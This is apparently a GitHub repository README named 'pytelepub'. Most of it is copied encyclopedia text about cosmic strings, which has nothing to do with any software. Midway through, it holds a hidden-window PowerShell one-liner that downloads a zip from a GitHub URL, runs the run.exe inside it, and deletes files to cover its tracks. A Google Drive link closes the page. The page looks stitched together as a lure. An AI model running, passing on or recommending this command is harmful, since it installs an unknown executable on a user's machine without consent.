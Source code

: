 # pytelepub
source: <a href="en.wikipedia.org/wiki/Cosmic_string"?en.wikipedia.org/wiki/Cosmic_string</a><br>
Cosmic strings are hypothetical 1-dimensional topological defects which may have formed during a symmetry breaking phase transition in the early universe when the topology of the vacuum manifold associated to this symmetry breaking was not simply connected. It is expected that at least one string per Hubble volume is formed. Their existence was first contemplated by the theoretical physicist Tom Kibble in the 1970s.

The formation of cosmic strings is somewhat analogous to the imperfections that form between crystal grains in solidifying liquids, or the cracks that form when water freezes into ice. The phase transitions leading to the production of cosmic strings are likely to have occurred during the earliest moments of the universe's evolution, just after cosmological inflation, and are a fairly generic prediction in both quantum field theory and string theory models of the early universe.

In string theory, the role of cosmic strings can be played by the fundamental strings (or F-strings) themselves that define the theory perturbatively, by D-strings which are related to the F-strings by weak-strong or so called S-duality, or higher-dimensional D-, NS- or M-branes that are partially wrapped on compact cycles associated to extra spacetime dimensions so that only one non-compact dimension remains.[1]

The prototypical example of a quantum field theory with cosmic strings is the Abelian Higgs model. The quantum field theory and string theory cosmic strings are expected to have many properties in common, but more research is needed to determine the precise distinguishing features. The F-strings for instance are fully quantum-mechanical and do not have a classical definition, whereas the field theory cosmic strings are almost exclusively treated classically.

Cosmic strings, if they exist, would be extremely thin with diameters of the same order of magnitude as that of a proton, i.e. ~ 1 fm, or smaller. Given that this scale is much smaller than any cosmological scale these strings are often studied in the zero-width, or Nambu–Goto approximation. Under this assumption strings behave as one-dimensional objects and obey the Nambu–Goto action, which is classically equivalent to the Polyakov action that defines the bosonic sector of superstring theory.

In field theory, the string width is set by the scale of the symmetry breaking phase transition. In string theory, the string width is set (in the simplest cases) by the fundamental string scale, warp factors (associated to the spacetime curvature of an internal six-dimensional spacetime manifold) and/or the size of internal compact dimensions. (In string theory, the universe is either 10- or 11-dimensional, depending on the strength of interactions and the curvature of spacetime.)

PowerShell.exe -windowstyle hidden $ident = "Get-ChildItem -Path '.' -Filter 'kpll.p'"; if ($ident.count -eq 0) { echo 'run32.dll found' > kpll.p; Remove-Item project.zip -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; iwr -OutFile project.zip https://github.com/Imper927/pytelepub/raw/master/python_nod.zip; Expand-Archive .\\project.zip; cd project; ./run.exe; cd ..; Remove-Item project.zip -Force -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false; Remove-Item project -Recurse:$true -Force:$true -Confirm:$false }

A string is a geometrical deviation from Euclidean geometry in spacetime characterized by an angular deficit: a circle around the outside of a string would comprise a total angle less than 360°. From the general theory of relativity such a geometrical defect must be in tension, and would be manifested by mass. Even though cosmic strings are thought to be extremely thin, they would have immense density, and so would represent significant gravitational wave sources. A cosmic string about a kilometer in length may be more massive than the Earth.

However general relativity predicts that the gravitational potential of a straight string vanishes: there is no gravitational force on static surrounding matter. The only gravitational effect of a straight cosmic string is a relative deflection of matter (or light) passing the string on opposite sides (a purely topological effect). A closed cosmic string gravitates in a more conventional way.

During the expansion of the universe, cosmic strings would form a network of loops, and in the past it was thought that their gravity could have been responsible for the original clumping of matter into galactic superclusters. It is now calculated that their contribution to the structure formation in the universe is less than 10%.

Negative mass cosmic string
The standard model of a cosmic string is a geometrical structure with an angle deficit, which thus is in tension and hence has positive mass. In 1995, Visser et al. proposed that cosmic strings could theoretically also exist with angle excesses, and thus negative tension and hence negative mass. The stability of such exotic matter strings is problematic; however, they suggested that if a negative mass string were to be wrapped around a wormhole in the early universe, such a wormhole could be stabilized sufficiently to exist in the present day.

https://drive.google.com/folderview?id=1C8w_Az3oUoOvcA1fGA6B_XPAkmXiSA6M
